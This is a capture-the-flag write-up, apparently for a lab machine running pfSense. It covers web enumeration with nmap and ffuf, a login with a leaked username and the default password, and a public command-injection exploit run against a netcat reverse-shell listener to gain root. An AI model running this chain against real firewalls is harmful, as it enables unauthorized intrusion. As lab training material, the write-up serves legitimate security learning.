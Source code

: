 Target: 10.10.10.60

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.60

Nmap scan report for 10.10.10.60
Host is up (0.039s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u https://10.10.10.60/FUZZ -ic

themes                  [Status: 301, Size: 0, Words: 1, Lines: 1]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1]
includes                [Status: 301, Size: 0, Words: 1, Lines: 1]
javascript              [Status: 301, Size: 0, Words: 1, Lines: 1]
classes                 [Status: 301, Size: 0, Words: 1, Lines: 1]
widgets                 [Status: 301, Size: 0, Words: 1, Lines: 1]
tree                    [Status: 301, Size: 0, Words: 1, Lines: 1]
shortcuts               [Status: 301, Size: 0, Words: 1, Lines: 1]
installer               [Status: 301, Size: 0, Words: 1, Lines: 1]
wizards                 [Status: 301, Size: 0, Words: 1, Lines: 1]
csrf                    [Status: 301, Size: 0, Words: 1, Lines: 1]
filebrowser             [Status: 301, Size: 0, Words: 1, Lines: 1]
```

checking 10.10.10.60

![index](sense1.png)

enumerating txt files ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u https://10.10.10.60/FUZZ.txt -ic

changelog               [Status: 200, Size: 271, Words: 35, Lines: 10]
system-users            [Status: 200, Size: 106, Words: 9, Lines: 7]
```

checking changelog.txt

![changelog ](sense2.png)

checking system-users.txt

![system-users](sense3.png)

logging in with found username `rohit` and default password `pfsense`

![log-in](sense4.png)

### Findings:Looking for attack vectors

Search for exploits for pfsense and its version.


## Foothold:

searching for pfsense 2.1.3 exploits
```
$ searchsploit pfsense 2.1.3

----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                     | php/webapps/43560.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

$ searchsploit -m php/webapps/43560.py

  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

running the exploit
```
$ python3 43560.py --rhost 10.10.10.60 --lhost <ip> --lport 9001 --username rohit --password pfsense

CSRF token obtained
Running exploit...
Exploit completed
```

```
# id

uid=0(root) gid=0(wheel) groups=0(wheel)
```

```
# cd /home/rohit

# cat user.txt

<redacted>
```

```
# cat /root/root.txt

<redacted>
```
